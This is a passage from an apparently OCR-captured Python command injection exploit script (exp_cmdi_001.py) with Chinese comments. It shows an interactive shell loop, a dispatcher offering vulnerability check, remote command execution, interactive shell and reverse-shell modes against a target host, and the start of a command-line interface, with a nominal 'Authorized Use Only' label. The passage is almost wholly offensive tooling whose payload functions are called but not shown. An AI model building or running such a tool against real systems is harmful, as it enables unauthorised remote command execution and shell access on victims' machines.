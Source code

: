 ```python
                
                result = self.execute_command(cmd)
                if result:
                    print(result)
                    
            except KeyboardInterrupt:
                print("\n[*] Exiting...")
                break
            except Exception as e:
                print(f"[-] Error: {e}")
    
    def run_exploit(self, mode: str, **kwargs):
        """
        主利用函数
        
        Args:
            mode: 利用模式 ('check', 'exec', 'shell', 'reverse')
            **kwargs: 模式特定参数
        """
        print("="*70)
        print("Command Injection Exploit")
        print(f"Target: {self.base_url}")
        print("="*70)
        
        # 先检测漏洞
        if not self.check_vulnerability():
            print("\n[-] Target is not vulnerable. Exiting.")
            return False
        
        print()
        
        # 根据模式执行
        if mode == 'check':
            print("[+] Vulnerability confirmed!")
            return True
            
        elif mode == 'exec':
            command = kwargs.get('command')
            if command:
                self.execute_command(command)
                return True
                
        elif mode == 'shell':
            self.interactive_shell()
            return True
            
        elif mode == 'reverse':
            lhost = kwargs.get('lhost')
            lport = kwargs.get('lport', 4444)
            if lhost:
                self.get_reverse_shell(lhost, lport)
                return True
        
        return False

def main():
    parser = argparse.ArgumentParser(
        description="Command Injection Exploit (Authorized Use Only!)",
        epilog="Example: python exp_cmdi_001.py --target 192.168.1.100 --mode check"
    )
    
    # 基础参数
    parser.add_argument('--target', required=True, help='Target IP or hostname')
```